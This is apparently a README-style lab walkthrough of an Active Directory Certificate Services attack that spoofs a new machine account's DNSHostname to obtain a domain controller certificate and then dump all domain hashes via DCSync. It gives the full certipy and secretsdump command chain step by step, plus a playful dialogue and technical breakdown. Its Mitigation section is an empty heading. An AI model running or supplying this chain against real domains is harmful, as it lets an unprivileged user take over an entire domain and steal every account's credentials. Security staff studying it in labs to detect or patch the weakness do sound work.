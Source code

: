 # Outline
- The Attack In Brief
- Tools Needed
- Lab Setup And Conditions
- Attack Demonstration
- The Exploit as a Conversation
- The Technical Breakdown
- Mitigation
- References and Credits

---

# The Attack In Brief
1. By default, A regular AD user can add up to 10 computers to the domain.
2. After a user adds a computer to the domain, he gains the right to change its `DNSHostname` property.
3. By changing this property to be a domain controller's `DNSHostname`, he can request a certificate for it from ADCS.
4. Using the domain controller's certificate, we can obtain its NTLM hash.
5. And with that, we can request a complete copy of the domain hashes a.k.a perform a **DCSync** attack.

---

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# The exploit: A Conversation
\+ **User:** Mr. AD! I heard that I could join 10 computers to the domain without any special privileges. Is this for real?

\- **AD:** Thats right! knock yourself out!

\+ **User:** Yo ADCS! can I request a certificate from you?

\~ **ADCS:** Sure! what do you need this certificate for, user or computer?

\+ **User:** I have my own certificate. Thanks. Can I get that for the computer I just joined to the domain?

\~ **ADCS:** You bet! all domain computers can get their certificate!

\+ **User:** Oh that's great! Alright, i'll need one for my computer here. But can I make its `DNShostname` like this? \*shows domain controller fully-qualified domain name\*

\~ **ADCS:** \*inspects the certificate request closely and looks confused\* Well um... this is weird. But you totally have the permission to do that. \*Hands him a certificate with the domain controllers `DNSHostname` one it\*

\+ **User:** Thank you ADCS! This certificate is good for authentication too, Right?

\~ **ADCS:** That's correct.

\+ **User:** Perfect!

\+ **User:** AD! \*Points to the newly joined computer\*. There's another domain controller here that wants to get a copy of all the passwords. Would that be OK?

\- **AD:** Yea I know that domain controller. \*Sends him a copy of all the domain hashes\*

\+ **User:** Oh you're so generous AD <3

\- **AD:** Just doing my job :D

---

# The Technical Breakdown

## Puzzle Piece #1: About Certificate Templates: The Process, Who's allowed to enroll? what can they do with a certificate?
Here's the process:
1. First, a client (User/Computer) generates a public/private key pair.
2. Client sends a Certificate Signing Request (CSR) to an Enteprise CA Server.
3. A user client will need to access the User Certificate Template. Same goes for a computer client. So both templates must exist.
4. Templates have permissions too. If the template allows the client to request a certificate, he should be good to go and the CA will sign his certificate with its own private key.
5. After recieving a user/computer certificate, they can both be used for authentication. This is the default.
6. This authentication is because of the PKINIT kerberos extension. Meaning that: If you have a valid certificate, you can get a TGT.

## Puzzle Piece #2: the permissions for the computer certificate template
The computer certificate is accessible to any computer in the Domain Computers Group:

![computer-certificate-template-permissions](computer-certificate-template-permissions.jpg)

## Puzzle Piece #3: The Default Privileges Of A Normal AD User
In Active Directory, any member of the `Authenticated Users` group is allowed to add up to 10 computers to the domain.

We can verify that by going to `MMC -> ADSI EDIT > DEFAULT NAMING CONTEXT > DOMAIN PROPERTIES`

![machine-account-quota](machine-account-quota.jpg)

## Puzzle Piece #4: The Permissions an AD User Has on The Computer He Joins to the domain
When a user adds a computer to the domain, he gains a few permissions on it:

![permissions-of-computer-owner](permissions-of-computer-owner.jpg)

This allows the user to set the `DNSHostname` property which ADCS uses to generate the certificate.

With a domain controller's certificate, we can request a TGT on its behalf and gain its NTLM hash too.

# mitigation


# references and credits